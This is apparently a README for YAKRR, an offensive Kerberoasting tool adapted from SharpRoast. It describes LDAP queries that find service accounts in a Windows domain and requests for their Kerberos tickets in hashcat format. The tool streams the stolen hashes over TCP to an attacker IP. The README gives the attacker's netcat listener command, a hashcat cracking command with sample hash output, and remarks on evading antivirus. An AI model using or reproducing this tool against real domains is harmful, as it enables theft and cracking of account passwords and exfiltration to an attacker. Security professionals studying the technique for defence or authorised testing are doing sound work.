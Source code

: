 ﻿### YAKRR
#### Yes, Another KerbeRoast Recipe
Based on https://github.com/GhostPack/SharpRoast, even if deprecated it works quite well.
I slighty modified the code creating a class **DCEnumNC.KBRoast** with only one public method
*RoastNow* that accept as arguments an array of strings, exactly the same interface of the original
project. See the comment on the code to explore the parameters list.
I have also coded a *helper* class **DCEnumNC.EnumDC** with (ath the moment) only 
one public static method to simply get the DC name server and the IP.<br>
The console application, that actually wraps the calls to the class methods, accept 3 parameters:
1. The attacker IP used to send the report
2. The port of the attacker IP
3. The command parameter *forwarded* to the RoastNow method

How does it works?
1. First the program check if the machine has joined a domain using the method **EnumDC.GetDCInfo()**
<br>If an error occurs probably the machine is not part of a domain, otherwise the Domain controller
name server and IP are returned as string.
2. Then the method **KBRoast.RoastNow(args)** is called passing the second argument as passed to 
the program
```
string[] KBargs = { args[2] };
sb.Append(KBRoast.RoastNow(KBargs)); 
```
3. If the argument passed is *all* the LDAP query will try to retrive all the users, 
except krbtgt<sup>1</sup> obects as follows:
```
(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt))
```
4. If a username is provided, e.g. zinz, the query will be the follows:
```
(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=zinz))
```

The query retrive all the user objects <sup>2</sup>, having the SPN attribute set.

5. For each found user the private method **GetDomainSPNTicket** is called and the program issue a
Kerberos token request, if succeed the hash is returned in a hashcat format, ready to be parsed using
the mode **13100  Kerberos 5 TGS-REP etype 23**. The encryption (eType) expected is 23 *rc4-hmac*<sup>3</sup>
and in case of error parsing the cipher text the program will return the *TicketHexStream* that we
could try to parse using the powershell function *Get-KerberoastHashFromAPReq* from the following
script: https://github.com/leechristensen/Random/blob/master/PowerShellScripts/Get-KerberoastingHash.ps1 
<br>The program creates a report having the following format:
```
DC name: DC01.zinz.local, IP: 192.168.1.100
SamAccountName         : hack
DistinguishedName      : CN=Hack Her,CN=Users,DC=zinz,DC=local
ServicePrincipalName   : http/zinz.org
Hash                   : $krb5tgs$23$*$zinz.local$http/zinz.org*$51A8E402265B9E3C7FFCE1DFC3134234$60870EA
                         3822A8AC2CBDA715E7ABEC906954D1B9849040AC1CE29B0BCCDE01ED042AEB0DED04F70F25E1BD29
                         6E1FF304AE6E24FAB92C67566BB5005A22F21F27268B1EC3B5F6F0F573B2EE8BDBC0A53716420E54
                         0E2FD0F439BBA985D5D1746749A0DFBF78955FD038E8F6FBE4F5C31B23FFA6FF625695B184EFCFB1
                         116F065514B479A5830196029344152414D14771BD2DD1AAB698DA998BD00AD66D4911B8466DEE07
                         A0DE3515A98FCBC9F4BF4CD80CDFE2AA6F2C71A463CA1F0FD9C7EE3B22CB339C3A7ED7260E07CA02
                         5F3E2DE9DE2BDDE354744B88AC075D4ED3F533B2F19FAEC645DCCECF5A03B0985BD55423D6DB2142
                         7507AB166A8B3BA6AFF603E12296A8FCFD644DD41AF70EB7CFBA8B0FE2E55A462BEB43C4759490C0
                         AA92CE10E2DECDD9A9A7839E4147ADE8D613C30250075E26C2FD0B12C2CD6B5A4AF324EC051BC1A6
                         D1822554EAEC5E4518BEB7925673585BCA19A554C1EAD351D6BA9E42CA98510CA190B2539F6B29EF
                         A9C28B7DAFFDE7B32227058179A6830F461365EB9FE53E0787686085E0A321AA3504B904F6D58FB9
                         08D64094A95115394111B2AD474E0FF9A77C62A07949D611051F7F1EBE4115763BE21104233CAE0D
                         F2E2C6E27E11C8B473CE514ECED538B98ADFA4FB77527BAC1E6AF2300FFCA1C56E3DC3C3D95FC2AE
                         1508D7C106C29414979D2E80C677B82EDD0FA91F73DF6D4D4EEBFE30A67DB58D99CFCF05AC382951
                         D45DC4510D14B307D869465F90FEBA2E3254396B4735A5D81DDA6D6F3C04F078DFEF7F40CF8FD3FE
                         D1C2466DEF72AEBD8F27AEE44375FD42E95627902887D427B28EAE7901C8FBD8051A0B758F39E457
                         4BCE0CD6E8B85EF30617D597C153F0163EED64FDAE91CF0A9F77E3BD813D389499AB2C0A5C4EB6B8
                         20AFB6F20929E95CCCAEB775EC6A5316BB21C3209A7065A8D314D9BA2BCD990D11EE47822B24DD1D
                         2DD8B8CF36EC2D9F32C26D9F54180A6F7B98FAEB3CE488766F12A60988C2B64D9A93E627A5D58E69
                         F0C3E38A6E80F0A9D8B03FD415F863C8743D082F3124A4C4B1AE623D21D65CCAAA9457ADC3667CB3
                         DFD63E3D36C9D2EE89A13D9C4996694D623B373A1A42C5E5B030F471B18EE26DF7BC634712D2DC1F
                         5D1F3D852C54835E7024DF57C2A4698A23EE7BBD903DF577604D872A40341FC922B7D841D5694974
                         417E0CFF812AD9480F96227839D33CCD43AA791D42083BA36709680CE1E29AD9E106167C40913924
                         CBE6FFBB34C5DFDB81F9B53DA8C5DA5A28F809A3B192A3178D6FBDB0ACC3305D421B7C0FBB168222
                         0CCBC20C798C9B129CDBB87950D19BB44C42E3DA8C54AD9CFDCB8A07720618617AEAD750398258F4
                         5DAD90CAE1ED1111095AB6840BB0BDB3C4C1DC0DBB861F49421D251BCA5AD294EE3969B4BB194A43
                         371BD1C61D9
...
```

The report is finally sent to the attacker using a network TCP stream. On the attacker we can save
the stream to a text file using the following command:

    nc -lvp <port> > kbrep.txt
    
As said the IP and the port of the attacker are passed as arguments 1 and 2 to the program.

6. Finally we can try to reverse the hash locally using hashcat<br>
![Screenshot](hashcatKerb.png)
Here I have found 2 passwords using the rockyou wordlist, please note that the second one *Toor1234* 
has been added on the wordlist and it's not present on the default rockyou file. The command used was:
```
hashcat.exe -a 0 -m 13100 -w 3 --status --status-timer=60 --potfile-disable -p : -O --hwmon-temp-abort=85 -r rules\best64.rule kerbTicketHash.txt wordlists\rockyou.txt
```
#### About AV bypass
Using this technique I was able to bypass some well known AV solutions but not Windows defender! 
To low the fingerprint on the victim we could try to get back the encoded requested ticket without
parsing to the hashcat format, doing this operation locally.

---
<small><sup>1</sup> The KRBTGT account is a local default account that acts as a service account for 
the Key Distribution Center (KDC) service. More info at: https://adsecurity.org/?p=483
<br><sup>2</sup> The filter (sAMAccountType=805306368) for user objects is more efficient than 
the usual filters<br>
<sup>3</sup> https://www.iana.org/assignments/kerberos-parameters/kerberos-parameters.xhtml#kerberos-parameters-1 
</small>


